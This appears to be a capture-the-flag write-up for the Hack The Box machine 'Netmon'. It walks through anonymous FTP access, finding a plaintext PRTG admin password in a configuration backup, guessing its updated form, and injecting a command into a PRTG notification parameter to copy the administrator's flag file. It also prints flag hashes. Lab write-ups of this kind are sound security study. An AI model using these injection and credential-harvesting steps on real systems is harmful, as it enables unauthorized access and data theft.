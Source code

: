 # Netmon

## User

### Scan
The first thing to do is scan the box. The output of `nmap -sC -sV 10.10.10.152` is:

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-12 16:45 EDT
Nmap scan report for 10.10.10.152
Host is up (0.17s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-03-12 16:46:27
|_  start_date: 2019-03-12 16:12:17

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.50 seconds
```

### FTP Anonymous
This box has FTP running and allows anonymous connections! This means that if we're lucky, we can connect to the server and get whatever we want. Most of the time anonymous connections are heavily restricted, but it doesn't seem like that is the case here. My Kali install did not have `ftp` by default, so I installed it with `apt install ftp`. Now we can see if `user.txt` is available to an anonymous ftp user:
```
root@kali:~/HTB/Machines/Netmon# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
03-13-19  05:55PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users/Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-13-19  05:55PM                   90 bla.txt
03-13-19  06:02PM                   90 bla2.txt
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
03-13-19  06:06PM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
03-13-19  05:55PM                   90 tester.txt
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
ge226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.16 secs (0.2001 kB/s)
ftp> exit
221 Goodbye.
```

If everything worked as expected then `cat user.txt` should give us the hash: `dd58ce67b49e15105e88096c8d9255a5`.

## Root

### Finding PRTG Network Monitor Credentials
Unfortunately for us, anonymous FTP does not allow us to access the root folder. We're going to have to find a different way in. Because the name of the box is 'Netmon', I'm going to assume that we need to exploit Netmon in some way. Looking up Netmon exploits gives us a number of interesting exploits that we can begin enumerating. 

First up, the default credentials should be `admin:netmon`. However, these credentials don't work. Darn. We could try brute-forcing but that might impact other people connecting to the machine. Maybe there's a less intrusive exploit that we can find out in the wild. 

Reddit is a good source for finding popular exploits that made a name for themselves in the netsec community. [This post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) gives us a very interesting lead. FTP may give us access to those configuration files in `ProgramData/Paessler/PRTG Network Monitor/`. Navigating to this directory gives us a few different `PRTG Configuration` files that we can check out. `get` all of them and then we can start searching for credentials. 

These are really big files, so let's try using some keywords to see if we can find anything. My process is to open each file, quickly skim, and then do some searches on words like 'password' and 'cred'. In `PRTG Configuration.old.bak` I found the following credentials:
```
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
``` 
You may notice that these credentials don't work out of the box. These are old credentials from a backup, so if we think about how people update passwords we might be able to deduce the updated password. The most obvious update would be `PrTg@dmin2019` because it's 2019 now. Trying this new password works and gets us into the site!

### Exploting PRTG Network Monitor
Administrative web applications are usually a gold mine for exploits to get root-level access on a system. Let's start by googling vulnerabilities and see what comes up. Some require more access than we currently have, but [this blog](https://www.codewatch.org/blog/?p=453) looks promising. His setup looks almost exactly like ours and we should be able to do all of the steps in his POC and maybe we'll modify it slightly to better suit our needs:

#### Create a Notification
Here we're going to create a notification that will execute a script everytime the notification is called. The parameter section is where the script will be injected that copies `root.txt` into a place where we can access it using FTP.
1. Go to Setup > Account Settings > Notifications > Add New Notification
2. Pick a unique name, Toggle the 'Execute Program' button, and delete any username or password fields that may have autofilled
3. Choose the 'Demo exe notification - outfile.ps1' because we want to inject a PowerShell command
4. In the parameter section type `test.txt; copy c:\Users\Administrator\Desktop\root.txt c:\Users\Public\root.txt`

#### Run the Notification
For the notification we just created to be called we need to set up a trigger. There are many options for this, but here is just one:
1. Go to Sensors > All
2. Choose any sensor that is currently down (like PING 8.8.8.8)
3. Click on the bell icon and select 'Add State Trigger'
4. Configure the state trigger like so:
![State Trigger Configuration](images/stc.png "Img")

### Retrieving our File
If everything is working correctly then our `root.txt` file should be in `C:\Users\Public\root.txt`. Run `get root.txt` to download and see the hash: `3018977fb944bf1878f75b879fba67cc`

### Troubleshooting
To tell if the notification has been run or not, check the log entries. Some of the issues I ran into were autofilled username/password in the notification creation menu and typos in the paths. 
